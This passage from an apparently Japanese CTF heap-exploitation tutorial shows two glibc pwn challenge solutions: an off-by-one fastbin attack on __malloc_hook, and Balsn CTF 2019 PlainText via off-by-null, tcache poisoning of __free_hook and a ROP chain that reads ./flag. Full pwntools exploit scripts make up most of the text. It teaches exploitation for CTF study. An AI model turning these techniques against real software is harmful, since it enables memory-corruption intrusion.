2. オーバーフローを行うチャンクは、最上部のチャンクより前に確保されている必要があります。そうでないと、`malloc(8)` のときに、オーバーフローを行うチャンクがあるべき位置ではなく最上部に確保されてしまいます
3. 任意のチャンクの位置に、少なくともさらに1つ、すでに解放されており size が 0x71 のチャンクがあり、fastbin attack に使えること
4. すべてのチャンクが top に統合されてはならないので、最下部に、top chunk との距離を保つための確保済みチャンクがあること
5. オーバーフローを行うチャンクのサイズは unsortedbin または smallbin に属している必要があり、fastbin であってはなりません。そうでないと、解放された後、`getline` の確保方式では `malloc(8)` がその位置に確保されなくなります

以上の原則に従うと、チャンクの配置は次のように考えられます。

```
+------------+
|      1     |  <-- free 的 size == 0x200 chunk
+------------+
|      2     |  <-- size == 0x60 fastbin chunk，已被分配，且可以读出数据
+------------+
|      5     |  <-- size == 0x71 fastbin chunk，为 fastbin attack 做准备
+------------+
|      3     |  <-- size == 0x1f8 free 状态的 smallbin/unsortedbin chunk
+------------+
|      4     |  <-- size == 0x101 被溢出 chunk
+------------+
|      X     |  <-- 任意分配后 chunk 防止 top 合并
+------------+
```

確保の過程には追加の構造(構造体自体の確保と `getline`)もあるため、構造体自体の確保が私たちの過程に影響しないよう、まず十分な数の fastbin chunk を解放しておく必要があります。

その後、5、3、1 の順に解放します。次に `del` の入力時の `getline` を利用して 3 を埋め尽くし、`off-by-one` を引き起こします。その後 4 を `free` して統合し(`prev_size` を偽造)、こうして交差したヒープ構造ができます。

以降の過程はさらに簡単です。まず 1 のサイズを確保して libc アドレスを 2 の中に書き込ませれば、そのアドレスを漏えいさせられます。次に 5 を確保して必要な内容を書き込めば、fastbin attack ができます。

### exploit

元の libc は 2.19 版ですが、ロードに少し妙な問題があって面倒です。また、この問題は 2.19 固有の特性を使っていないため、2.23 の libc(バージョンは ubuntu10)を使ってデバッグしました。

```python
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8

import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) > 2:
    DEBUG = 0
    HOST = sys.argv[1]
    PORT = int(sys.argv[2])

    p = remote(HOST, PORT)
else:
    DEBUG = 1
    if len(sys.argv) == 2:
        PATH = sys.argv[1]

    p = process(PATH)


libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # ubuntu 16.04

def cmd(command_num):
    p.recvuntil('command:')
    p.sendline(str(command_num))


def put(key, size, data):
    cmd('PUT')
    p.recvuntil('key:')
    p.sendline(key)

    p.recvuntil('size:')
    p.sendline(str(size))
    p.recvuntil('data:')
    if len(data) < size:
        p.send(data.ljust(size, '\x00'))
    else:
        p.send(data)


def delete(key):
    cmd('DEL')
    p.recvuntil('key:')
    p.sendline(key)


def get(key):
    cmd('GET')
    p.recvuntil('key:')
    p.sendline(key)
    p.recvuntil('[')
    num = int(p.recvuntil(' bytes').strip(' bytes'))
    p.recvuntil(':\n')
    return p.recv(num)


def main():
    # avoid complicity of structure malloc
    for i in range(10):
        put(str(i), 0x38, str(i))
        
    for i in range(10):
        delete(str(i))

    # allocate what we want in order
    put('1', 0x200, '1')
    put('2', 0x50, '2')
    put('5', 0x68, '6')
    put('3', 0x1f8, '3')
    put('4', 0xf0, '4')
    put('defense', 0x400, 'defense-data')


    # free those need to be freed
    delete('5')
    delete('3')
    delete('1')

    delete('a' * 0x1f0 + p64(0x4e0))

    delete('4')

    put('0x200', 0x200, 'fillup')
    put('0x200 fillup', 0x200, 'fillup again')

    libc_leak = u64(get('2')[:6].ljust(8, '\x00'))
    p.info('libc leak: 0x%x' % libc_leak)
    
    libc_base = libc_leak - 0x3c4b78

    p.info('libc_base: 0x%x' % libc_base)

    put('fastatk', 0x100, 'a' * 0x58 + p64(0x71) + p64(libc_base + libc.symbols['__malloc_hook'] - 0x10 + 5 - 8))
    put('prepare', 0x68, 'prepare data')

    one_gadget = libc_base + 0x4526a
    put('attack', 0x68, 'a' * 3 + p64(one_gadget))

    p.sendline('DEL') # malloc(8) triggers one_gadget

    p.interactive()

if __name__ == '__main__':
    main()
```
## 例 3 : Balsn_CTF_2019-PlainText
### 悪用の解析

プログラムの流れは比較的明快で単純です。add 関数に明らかな off-by-null があります。



一方、free ではポインタを解放した後に NULL にしているため、直接 show することはできません。また、プログラムは入力の末尾に `\x00` を付け足すため、解放してから再確保する方法も使えず、leak は比較的困難です。

解析は以上です。ここから悪用に入ります。

デバッグしやすくするため、先に aslr を無効にすることをお勧めします。

最初は bin の中が非常に雑然としているので、まずそれらの余計なものを確保して取り出してしまいます。

```python
for i in range(16):
    add(0x10,'fill')

for i in range(16):
    add(0x60,'fill')

for i in range(9):
    add(0x70,'fill')

for i in range(5):
    add(0xC0,'fill')

for i in range(2):
    add(0xE0,'fill')

add(0x170,'fill')
add(0x190,'fill')
# 49
```

部分上書きの際に `\x00` が付け足されるため、ヒープのアドレスを調整する必要があります。デバッグしやすくするため、私は次のように調整しました。具体的な理由はすぐ後で説明します。

```python
add(0x2A50,'addralign') # 50
```

次にヒープのレイアウトを行います。

まず大きめのヒープブロックを確保して解放し、さらに大きいヒープブロックを確保して、解放されたヒープブロックを large bin に入れます。

```python
add(0xFF8,'large bin') # 51
add(0x18,'protect') # 52


delete(51)
add(0x2000,'push to large bin') # 51
```

先ほどヒープのアドレスを調整したので、私の gdb では、この large bin の下位アドレスの下位16ビットがすべて 0 になります(これが、先ほどヒープのアドレスをあのように調整した理由です。もちろんこれはデバッグ時だけの話で、実際に攻撃するときに0であることが保証できるのは下位12ビットだけで、4ビットをブルートフォースする必要があり、確率は 1/16 です)。

次に、次のようなレイアウトを行います。

```python
add(0x28,p64(0) + p64(0x241) + '\x28') # 53 fd->bk : 0xA0 - 0x18

add(0x28,'pass-loss control') # 54
add(0xF8,'pass') # 55
add(0x28,'pass') # 56
add(0x28,'pass') # 57
add(0x28,'pass') # 58
add(0x28,'pass') # 59
add(0x28,'pass-loss control') # 60
add(0x4F8,'to be off-by-null') # 61
```




できあがる状態は上の図のとおりです。chunk A は、fake chunk の size と fd、bk ポインタの配置を担っています。このうち fd は `&chunk_B - 0x18` を指し、largebin の fd を壊します。この fd は後で修復して fake chunk を指すようにします。

fake chunk の fd は `&chunk_B - 0x18` を指しているので、chunk B の fd が fake chunk を指すようにしたいところです。そのため、まず chunk B を free してから確保し直し、fd を部分上書きして実現します。

chunk E の存在意義は、ヒープのアドレスを引き上げて、後でヒープのアドレスを leak するときにすべて出力できるようにすることです。

chunk E と chunk C の間にいくつかのチャンクを挟んでいます。これらのチャンクは overlapping されるので、後で引き続き利用しやすくなります。後で足りなくなったと気づかないよう、多めに挟むことをお勧めします。

chunk C は将来 chunk D に対する off-by-null に使います。その後 chunk D を free すると、低いアドレスの方向へ統合できます。

---

fake chunk の size はすでに書き換えてあります。large bin の fd を修復するときにこの size を壊したくないので、chunk A を fastbin に free する必要があります。chunk B と chunk C も free する必要があります。また chunk B の fd ポインタがヒープのアドレスを指しているようにしたいので、部分上書きすれば fake_chunk を指させられます。

```python
for i in range(7):
    add(0x28,'tcache')
for i in range(7):
    delete(61 + 1 + i)

delete(54)
delete(60)
delete(53)

for i in range(7):
    add(0x28,'tcache')

# 53,54,60,62,63,64,65

add(0x28,'\x10') # 53->66
## stashed ##
add(0x28,'\x10') # 54->67
add(0x28,'a' * 0x20 + p64(0x240)) # 60->68
delete(61)
```

このように、まず Tcache を満杯にしてから chunk B C A の順に free し、次に Tcache を空にして chunk A を確保し直し、部分上書きして fd が fake_chunk を指すようにします。

そして Tcache の stash 機構により chunk B C が Tcache に入るので、確保し直したものは chunk B になります。部分上書きして fd が fake_chunk を指すようにします。

次に chunk C を確保し直し、off-by-null を行います。

chunk D を free すると、chunk overlapping が成功します。

次に leak を行います。ヒープのアドレスと libc のアドレスの両方を leak する必要があります。leak の方法は多くありますが、ここでは1つ紹介します(この方法は決して最善ではありませんが、leak ができればよいのです)。

```
add(0x140,'pass') # 61
show(56)
libc_base = u64(sh.recv(6).ljust(0x8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 0x60
log.success("libc_base:" + hex(libc_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]

add(0x28,'pass') # 69<-56
add(0x28,'pass') # 70<-57
delete(70)
delete(69)
show(56)
heap_base = u64(sh.recv(6).ljust(0x8,'\x00')) - 0x1A0
log.success("heap_base:" + hex(heap_base))
```

次に Tcache poisoning を行います(ここで少し詰まりました。主な原因は、ずっと double free で実現することを考えていたことです。この考えは本当に愚かでした。Tcache poisoning の悪用では next ポインタさえ制御できればよく、double free は制御を実現する方法であることが多いものの、必須ではないことに注意してください。この問題にはもっと良い方法があるため、double free は不要です)。

```
add(0x28,p64(0) * 2) # 69<-56
add(0x28,p64(0) * 2) # 70<-57
add(0x28,p64(0) * 2) # 71<-58
delete(68)
add(0x60,p64(0) * 5 + p64(0x31) + p64(__free_hook_addr)) # 68
add(0x28,'pass') # 72
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73
```

chunk overlapping があるので、next ポインタの制御は実は簡単です。たとえば上のような方法で __free_hook を確保できます。

ここでヒープ上の悪用は終わりです。その後はホワイトリストの回避を行う必要があります。具体的な方法はここでは繰り返しません。《沙箱逃逸》ディレクトリの《C 沙盒逃逸》を参照してください。

### exp

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.terminal = ["tmux","splitw","-h"]
context.log_level = 'debug'

#sh = process("./note")
#libc = ELF("/glibc/2.29/64/lib/libc.so.6")
sh = process("./note-re")
libc = ELF("./libc-2.29.so")

def add(size,payload):
    sh.sendlineafter("Choice: ",'1')
    sh.sendlineafter("Size: ",str(size))
    sh.sendafter("Content: ",payload)

def delete(index):
    sh.sendlineafter("Choice: ",'2')
    sh.sendlineafter("Idx: ",str(index))

def show(index):
    sh.sendlineafter("Choice: ",'3')
    sh.sendlineafter("Idx: ",str(index))

for i in range(16):
    add(0x10,'fill')

for i in range(16):
    add(0x60,'fill')

for i in range(9):
    add(0x70,'fill')

for i in range(5):
    add(0xC0,'fill')

for i in range(2):
    add(0xE0,'fill')

add(0x170,'fill')
add(0x190,'fill')
# 49

add(0x2A50,'addralign') # 50
#add(0x4A50,'addralign') # 50

add(0xFF8,'large bin') # 51
add(0x18,'protect') # 52


delete(51)
add(0x2000,'push to large bin') # 51
add(0x28,p64(0) + p64(0x241) + '\x28') # 53 fd->bk : 0xA0 - 0x18

add(0x28,'pass-loss control') # 54
add(0xF8,'pass') # 55
add(0x28,'pass') # 56
add(0x28,'pass') # 57
add(0x28,'pass') # 58
add(0x28,'pass') # 59
add(0x28,'pass-loss control') # 60
add(0x4F8,'to be off-by-null') # 61

for i in range(7):
    add(0x28,'tcache')
for i in range(7):
    delete(61 + 1 + i)

delete(54)
delete(60)
delete(53)

for i in range(7):
    add(0x28,'tcache')

# 53,54,60,62,63,64,65

add(0x28,'\x10') # 53->66
## stashed ##
add(0x28,'\x10') # 54->67
add(0x28,'a' * 0x20 + p64(0x240)) # 60->68
delete(61)

add(0x140,'pass') # 61
show(56)
libc_base = u64(sh.recv(6).ljust(0x8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 0x60
log.success("libc_base:" + hex(libc_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]

add(0x28,'pass') # 69<-56
add(0x28,'pass') # 70<-57
delete(70)
delete(69)
show(56)
heap_base = u64(sh.recv(6).ljust(0x8,'\x00')) - 0x1A0
log.success("heap_base:" + hex(heap_base))

add(0x28,p64(0) * 2) # 69<-56
add(0x28,p64(0) * 2) # 70<-57
add(0x28,p64(0) * 2) # 71<-58
delete(68)
add(0x60,p64(0) * 5 + p64(0x31) + p64(__free_hook_addr)) # 68
add(0x28,'pass') # 72
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73

pop_rdi_ret = libc_base + 0x26542
pop_rsi_ret = libc_base + 0x26f9e
pop_rdx_ret = libc_base + 0x12bda6
syscall_ret = libc_base + 0xcf6c5
pop_rax_ret = libc_base + 0x47cf8
ret = libc_base + 0xc18ff

payload_addr = heap_base + 0x270
str_flag_addr = heap_base + 0x270 + 5 * 0x8 + 0xB8
rw_addr = heap_base 

payload = p64(libc_base + 0x55E35) # rax
payload += p64(payload_addr - 0xA0 + 0x10) # rdx
payload += p64(payload_addr + 0x28)
payload += p64(ret)
payload += ''.ljust(0x8,'\x00')

rop_chain = ''
rop_chain += p64(pop_rdi_ret) + p64(str_flag_addr) # name = "./flag"
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rdx_ret) + p64(0)
rop_chain += p64(pop_rax_ret) + p64(2) + p64(syscall_ret) # sys_open
rop_chain += p64(pop_rdi_ret) + p64(3) # fd = 3
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["read"])
rop_chain += p64(pop_rdi_ret) + p64(1) # fd = 1
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["write"])

payload += rop_chain
payload += './flag\x00'
add(len(payload) + 0x10,payload) # 74
#gdb.attach(proc.pidof(sh)[0])
delete(74)

sh.interactive()
```
